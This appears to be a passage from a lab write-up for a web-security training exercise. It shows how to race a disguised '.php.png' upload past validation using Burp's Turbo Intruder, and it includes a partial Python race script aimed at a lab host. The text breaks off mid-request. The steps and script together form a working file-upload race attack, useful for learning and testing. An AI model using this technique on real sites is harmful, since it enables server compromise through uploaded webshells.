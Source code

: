 ```bash
Append "file.php.png" to the end of the filename in the POST:

Content-Disposition: form-data; name="avatar"; filename="file.php.png"

Be aware that when you find this in the "HTTP history" the .png extension will no longer be there

Right click -> Highlight

Go to:
In "HTTP history"

GET /files/avatars/clown.php.png HTTP/1.1

Right click -> Highlight
Go back to the POST request
Right click -> Turbo Intruder -> Send to turbo intruder
In the drop down menu there will be an option "examples/race.py"

The code below is an example. Some notable mentions:

The initial few lines should have 'concurrentConnections=20' note the # 

Add in request1 = "POST", request2 = "Get\r\n"

Note the escape characters at the end of the "GET" request i.e. the request2 variable
Lower the for loop to 5 instead of 30
Add above the for loop:

engine.queue(request1, gate='race1')

Below the for loop:

engine.queue(request2, gate='race1')

Hit attack at the bottom and look for "200" responses

```

### Continued (race conditions) final payload...
```python

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=20,
                           requestsPerConnection=1,
                           pipeline=False
                           )

    request1 = '''
POST /my-account/avatar HTTP/1.1
Host: ac3b1f291e83171ac0b8a6a400680062.web-security-academy.net
Cookie: session=6QANEtWspmJnotAZWeaMu2b0JnNoeZbQ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------40396962506101427813186500673
Content-Length: 536
Origin: https://ac3b1f291e83171ac0b8a6a400680062.web-security-academy.net
Referer: https://ac3b1f291e83171ac0b8a6a400680062.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
```